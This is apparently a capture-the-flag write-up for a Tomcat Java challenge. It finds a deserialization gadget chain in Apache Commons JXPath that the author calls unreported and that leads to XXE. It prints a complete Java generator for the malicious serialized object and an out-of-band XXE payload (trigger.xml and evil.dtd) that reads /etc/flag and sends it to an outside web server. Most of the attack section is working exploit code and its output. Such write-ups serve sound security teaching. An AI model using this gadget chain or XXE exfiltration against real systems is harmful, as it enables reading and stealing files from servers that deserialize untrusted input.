

# licpwn
A medium/hard Tomcat Java RE/PWN with the WAR File provided. It uses an "0-day" (not reported gadget) of the [Commons JXPath Library](http://commons.apache.org/proper/commons-jxpath/index.html) which contains an Deserialize to XXE gadget. Since userinput deserialization is possible the gadget can be used to extract the flag via OOB techniques.

## Description
From stage 1 the user gets the war file and hence can start reversing. He won't find anything special, except for the fact that he can serialize valid objects now :)


## Solution
The application takes untrusted user input and deserializes it. But the user will realize there are no RCE gadgets present. And even no known gadgets for any of those librarys. So he has to find his own gadgets, using [Gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector). 

```
0x4d5a@ubuntu:~/Downloads/gadgetinspector$ java -jar build/libs/gadget-inspector-all.jar ~/Idea/CoolCalc/target/erp.war
2019-02-11 23:36:45,643 gadgetinspector.GadgetInspector [INFO] Using WAR classpath: /home/alain/Idea/CoolCalc/target/erp.war
2019-02-11 23:36:45,910 gadgetinspector.GadgetInspector [INFO] Deleting stale data...
2019-02-11 23:36:45,910 gadgetinspector.GadgetInspector [INFO] Running method discovery...
[...]
2019-02-11 23:37:59,465 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/KeyGeneratorSpi
2019-02-11 23:37:59,467 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/SecretKey
2019-02-11 23:37:59,467 gadgetinspector.data.InheritanceDeriver [DEBUG] No class id for javax/crypto/SecretKeyFactorySpi
2019-02-11 23:37:59,781 gadgetinspector.GadgetInspector [INFO] Analyzing methods for passthrough dataflow...
2019-02-11 23:38:17,744 gadgetinspector.PassthroughDiscovery [DEBUG] Performing topological sort...
2019-02-11 23:38:18,755 gadgetinspector.PassthroughDiscovery [DEBUG] Outgoing references 273227, sortedMethods 273227
2019-02-11 23:39:01,611 gadgetinspector.GadgetInspector [INFO] Analyzing methods in order to build a call graph...
2019-02-11 23:39:27,188 gadgetinspector.GadgetInspector [INFO] Discovering gadget chain source methods...
2019-02-11 23:39:29,427 gadgetinspector.GadgetInspector [INFO] Searching call graph for gadget chains...
2019-02-11 23:39:41,067 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 0, Search space: 1588
2019-02-11 23:39:41,182 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 1000, Search space: 2436
2019-02-11 23:39:41,284 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 2000, Search space: 2526
2019-02-11 23:39:41,322 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 3000, Search space: 2837
2019-02-11 23:39:41,335 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 4000, Search space: 2358
2019-02-11 23:39:41,383 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 5000, Search space: 1700
2019-02-11 23:39:41,397 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 6000, Search space: 1652
2019-02-11 23:39:41,413 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 7000, Search space: 1540
2019-02-11 23:39:41,429 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 8000, Search space: 1156
2019-02-11 23:39:41,436 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 9000, Search space: 711
2019-02-11 23:39:41,448 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 10000, Search space: 579
2019-02-11 23:39:41,469 gadgetinspector.GadgetChainDiscovery [INFO] Iteration 11000, Search space: 224
2019-02-11 23:39:41,481 gadgetinspector.GadgetChainDiscovery [INFO] Found 3 gadget chains.
2019-02-11 23:39:41,481 gadgetinspector.GadgetInspector [INFO] Analysis complete!
```

There have been 3 gadget chains found, but only one of them is actual usable:

```
javax/management/BadAttributeValueExpException.readObject(Ljava/io/ObjectInputStream;)V (1)
  org/apache/commons/jxpath/ri/model/NodePointer.toString()Ljava/lang/String; (0)
  org/apache/commons/jxpath/ri/model/NodePointer.asPath()Ljava/lang/String; (0)
  org/apache/commons/jxpath/ri/model/container/ContainerPointer.isCollection()Z (0)
  org/apache/commons/jxpath/util/ValueUtils.isCollection(Ljava/lang/Object;)Z (0)
  org/apache/commons/jxpath/util/ValueUtils.getValue(Ljava/lang/Object;)Ljava/lang/Object; (0)
  org/apache/commons/jxpath/xml/DocumentContainer.getValue()Ljava/lang/Object; (0)
  java/net/URL.openStream()Ljava/io/InputStream; (0)
```

It show a call graph for a deserialized object (BadAttributeValueExpException) which triggers the subsequent methods to finally arrive at openStream(). Once the user reverses this call he'll find this code:

```
public Object getValue() {
        if (this.document == null) {
            try {
                InputStream stream = null;

                try {
                    if (this.xmlURL != null) {
                        stream = this.xmlURL.openStream();
                    }

                    this.document = this.parseXML(stream);
```

xmlURL is user controlled, as well as document. This means he can provide an URL in the serialized object which triggers an openStream and parseXML call, resulting in an XXE.

The chain from above doesn't work since one overloaded method is not properly resolved. But the user can fix this gadget chain to achieve the same thing with a little bit different chain (using VariablePointer and instead of NodePointer). The chain looks from the callstack like this:


The XXE result isn't reflected anywhere. Therefor the user has to use an OOB technique to extract the flag file provided at /etc/flag (change the IP addr to an external webserver!)

```
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ cat trigger.xml 
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/flag">
  <!ENTITY % dtd SYSTEM
  "http://127.0.0.1:8000/evil.dtd">
  %dtd;
]>
<data>&send;</data>
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ cat evil.dtd 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8000/?collect=%file;'>">
%all;
```
Resulting in:
```
0x4d5a@ubuntu:~/Downloads/CTF/coolcalc$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
127.0.0.1 - - [11/Feb/2019 23:15:00] "GET /trigger.xml HTTP/1.1" 200 -
127.0.0.1 - - [11/Feb/2019 23:15:01] "GET /evil.dtd HTTP/1.1" 200 -
127.0.0.1 - - [11/Feb/2019 23:15:01] "GET /?collect=ALLES{sampleflag} HTTP/1.1" 200 -
```

Code to generate the malicious license file:
```
public class Main {
    public static void main(String[] args) throws Exception {

        if (args.length != 2)
        {
            System.out.println("Usage:");
            System.out.println("Mode 1: xxepoc.jar generate <url>");
            System.out.println("Mode 2: xxepoc.jar trigger <base64Object>");
            return;
        }


        if (args[0].equals("generate")) {
            // Neues DocumentContainer Objekt mit der XML URL die wir abrufen
            DocumentContainer cont = new DocumentContainer(new URL(args[1]), "DOM");

            // Das Document in ein Variablen-Objekt Verpacken
            BasicVariables variables = new BasicVariables();
            variables.declareVariable("document", cont);

            // Ein Variablenpointer mit der soeben erstellen Variable die auf das Dokument zeigt machen
            VariablePointer pointer = new VariablePointer(variables, new QName("document"));

            // Hole das this.index Feld per Reflection
            Field field = ReflectionUtil.getField(pointer.getClass(), "index");
            // Mache aus dem private Feld ein schreibares Feld
            ReflectionUtil.makeAccessible(field);
            // Schreibe einen Wert!
            field.setInt(pointer, 1337);

            // badAttributeValueExpException erzeugen
            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
            // Wieder per Reflection das interne Feld mit unserem Payload setzen
            Field valField = badAttributeValueExpException.getClass().getDeclaredField("val");
            valField.setAccessible(true);
            valField.set(badAttributeValueExpException, pointer);

            // Serialisieren und Base64 encodieren
            String serialized = toString(badAttributeValueExpException);
            System.out.println(serialized);
        }
        else if (args[0].equals("trigger"))
        {
            fromString(args[1]);
        }
        else {
            System.out.println("Invalid Action 3!");
        }
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
    }

    /** Read the object from Base64 string. */
    private static Object fromString( String s ) throws IOException,
            ClassNotFoundException {
        byte [] data = Base64.getDecoder().decode( s );
        ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(  data ) );
        Object o  = ois.readObject();
        ois.close();
        return o;
    }

    /** Write the object to a Base64 string. */
    private static String toString( Serializable o ) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream( baos );
        oos.writeObject( o );
        oos.close();
        return Base64.getEncoder().encodeToString(AES.encrypt(baos.toByteArray()));
    }
}
```

Done :)